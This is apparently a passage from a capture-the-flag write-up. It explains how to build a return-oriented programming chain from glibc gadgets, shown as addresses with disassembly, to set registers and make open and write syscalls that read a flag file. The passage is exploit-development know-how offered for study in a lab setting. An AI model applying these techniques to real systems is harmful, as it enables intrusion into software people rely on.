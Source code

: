 So here are the two gadgets:

```assembly
   0x7f9cb22cc3fa <printf_size_info+26>:	mov    eax,0x1
   0x7f9cb22cc3ff <printf_size_info+31>:	ret  
```

```assembly
   0x7f9cb22fa888 <_IO_adjust_column+40>:	sub    rcx,rax
   0x7f9cb22fa88b <_IO_adjust_column+43>:	lea    eax,[rcx-0x1]
   0x7f9cb22fa88e <_IO_adjust_column+46>:	ret    
```

Given the gadget for `sub rcx, rax` I either needed to do it twice as `rax` will get clobbered, or find an `add rax, 1`

```assembly
   0x7f9cb2317250 <envz_get+32>:	add    rax,0x1
   0x7f9cb2317254 <envz_get+36>:	test   dl,dl
   0x7f9cb2317256 <envz_get+38>:	mov    edx,0x0
   0x7f9cb231725b <envz_get+43>:	cmove  rax,rdx
   0x7f9cb231725f <envz_get+47>:	ret    
```

Luckily `RDX` is never zero and the `DL` check can be avoided, but since we changed the method of calling syscall, `RSI` still points to the flag now. So we need to call `syscall` once to have it fail,  this allows us to move `RSI` into `RDI`. Normally this would also set `RCX` but in the source of `syscall`, for some reason, sets the error code into `RCX` first, so for this I called write instead, setting `RCX` to that syscall instead.

## RSI = Zero , RDI, and Full OPEN

Now we still need to get `RSI` to zero as we want to open the flag as read, finding a gadget for this was a bit tough. By utilizing the `hcreate` function above to set `RSI` to the flag, we can then `and esi, 0x200` to get the zero we desire.

```assembly
0x7f9cb239eee0 <__memcpy_chk+64>:	and    esi,0x200
   0x7f9cb239eee6 <__memcpy_chk+70>:	lea    rdx,[rip+0x74353]        # 0x7f9cb2413240
   0x7f9cb239eeed <__memcpy_chk+77>:	lea    rax,[rip+0x743bc]        # 0x7f9cb24132b0
   0x7f9cb239eef4 <__memcpy_chk+84>:	cmove  rax,rdx
   0x7f9cb239eef8 <__memcpy_chk+88>:	ret    
```

This one was close as, `__memcpy_chk` doesn't actually resolve, but luckily the function right before does resolve, good 'ol `__cyg_profile_func_exit`. Luckily based on the address I was using for the flag file name, anding with 0x200 resulted in 0.

With this out of the way now we can set `RDI`, this is only important in the case of the first syscall we need to make as it still needs to be a valid syscall to move to `RAX`

So here is that gadget:

```assembly
   0x7f9cb22c60d3:	mov    edi,eax
   0x7f9cb22c60d5:	cmp    rdx,rcx
   0x7f9cb22c60d8:	jae    0x7f9cb22c60bc
   0x7f9cb22c60da:	mov    rax,r8
   0x7f9cb22c60dd:	ret    
```
